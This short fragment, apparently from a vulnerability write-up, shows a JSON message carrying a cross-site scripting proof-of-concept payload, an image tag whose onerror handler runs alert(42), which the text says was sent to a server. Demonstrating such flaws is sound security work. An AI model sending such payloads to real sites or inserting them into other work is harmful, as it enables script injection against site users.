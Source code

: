 The following payload was sent from client to the server. If executed successfully an alert with the message 42 pops up!

***´{"message":"<img src=x onerror='alert(42)'>"}´***


